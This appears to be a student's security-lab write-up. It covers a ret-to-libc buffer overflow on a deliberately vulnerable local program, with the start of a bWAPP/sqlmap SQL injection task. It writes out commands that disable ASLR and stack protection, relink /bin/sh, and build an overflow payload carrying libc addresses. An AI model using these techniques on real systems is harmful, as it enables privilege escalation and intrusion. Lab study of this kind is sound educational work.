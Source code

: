 ![image](https://github.com/user-attachments/assets/e037b3f6-c8c3-432a-a035-fe23a3752adc)# Task1: Software buffer overflow attack
**Student ID: 22110038**
**Name:** Phan Triệu Huy 
## Setup env:
**Run docker env:** docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
![image](https://github.com/user-attachments/assets/06cbf417-5575-4641-84b9-447a46c15091)
**Create file task1.c and vuln.c to inject code:**
vuln.c:
![image](https://github.com/user-attachments/assets/a641a96e-9d42-49d0-a25b-3de4469e76ea)
task1.c:
![image](https://github.com/user-attachments/assets/3a749cb1-2267-4ba3-9d32-6f2ba89c51d4)
 **setup:**
Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack.This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this feature using the following command:
sudo sysctl -w kernel.randomize_va_space=0
![image](https://github.com/user-attachments/assets/f8d0b7c8-25c8-4755-b848-7fcc944dc4cd)

In both Ubuntu 12.04 and Ubuntu 16.04 VMs, the/bin/sh symbolic link points to the/bin/dash shell. The dash shell in Ubuntu 16.04 has a countermeasure that prevents itself from being executed in a Set-UID process. Basically, if dash detects that it is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege.Since our victim program is aSet-UID program, and our attack relies on running/bin/sh, the countermeasure in/bin/dash makes our attack more difficult.
sudo ln -sf /bin/zsh /bin/sh
![image](https://github.com/user-attachments/assets/17c0f108-c688-4a62-92bf-0fad1ed11384)

Compile program with options to defeat stack protecting mechanism and code execution on stack:
gcc vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
![image](https://github.com/user-attachments/assets/19e982d1-dc96-47c9-9339-8a85eddcd3dd)
## Attack:
**overview:**
![image](https://github.com/user-attachments/assets/cc724258-5395-47b6-9409-69621a79c880)
because shellcode larger 16byte . So, I'll use ret-to-libc.
**export path task1.c to env:**
export mypath="/home/seed/seclabs/lab_exam/task1.c"
![image](https://github.com/user-attachments/assets/be7a33d1-2531-433c-893b-f402628c0fae)
**run debug:**
gdb ./vuln
start
![image](https://github.com/user-attachments/assets/cff40445-01c0-4ddd-9ec6-3382fde290cc)
**get address of system, exit, mypath:**
![image](https://github.com/user-attachments/assets/ddd26bf2-509b-404a-a29f-c3a82c84dcf5)

system: 0xf7e50db0  will be inserted with format \xb0\x0d\xe5\xf
exit: 0xf7e449e0  will be inserted with format \xe0\x49\xe4\xf7
mypath("/home/seed/seclabs/lab_exam/task1.c"): 0xffffdf14 to \x14\xdf\xff\xff
=> r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\x14\xdf\xff\xff')")
![image](https://github.com/user-attachments/assets/3a191e29-6018-4a78-a450-237b57bfc60e)
=> it execute code C but i have bug. 
**run remove ^M**
cat -v task1.c
sed -i 's/\r$//' task1.c
before: ![image](https://github.com/user-attachments/assets/54e994ff-8957-4a71-b27e-d51f1c991c21)
after: ![image](https://github.com/user-attachments/assets/25aee0e4-767d-4e09-9a94-71a10ed713df)

**before attack:**
![image](https://github.com/user-attachments/assets/603431f1-e1fe-44d5-81da-17768aec7fce)
**after attack:**
# Task2: Attack on the database of bWapp 
## Install:
**Install bWapp:**
docker pull raesene/bwapp
docker run --rm -it -p 8025:80 raesene/bwapp
localhost:8025/install.php
![image](https://github.com/user-attachments/assets/d454d936-825b-4939-a906-d207ea620f13)

**Install sqlmap:**
![image](https://github.com/user-attachments/assets/bb57e17f-06cc-4090-8042-7c7d1090ca7c)
![image](https://github.com/user-attachments/assets/6d342a2b-4068-4b2a-b759-b9024843b461)


